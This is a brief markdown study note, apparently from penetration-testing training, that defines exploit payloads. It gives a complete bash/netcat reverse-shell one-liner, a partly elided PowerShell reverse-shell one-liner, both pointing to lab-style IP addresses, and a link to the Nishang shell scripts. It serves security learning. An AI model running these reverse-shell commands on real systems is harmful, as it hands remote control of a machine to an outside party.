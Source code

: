 
## What Is a Payload

A **payload** is the actual code or command delivered to a system during an exploit.

- It performs a specific action, such as opening a shell, stealing data, or maintaining access.
    
- It can be blocked by defenses like antivirus or endpoint detection systems.
    
- Think of it as the "message" that gets executed after successful delivery.
    

---

## Bash / Netcat Reverse Shell One-Liner

**Command:**

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```

---

## PowerShell Reverse Shell One-Liner

**Command:**

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443); ... $client.Close()"
```

---

## PowerShell TCP Shell Script (Nishang)

`Invoke-PowerShellTcp` is a script that provides both reverse and bind shell functionality in PowerShell.

**Resources:**

- Nishang repository: [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)
    
- Reference blog: [labofapenetrationtester.com](https://www.labofapenetrationtester.com/)
    
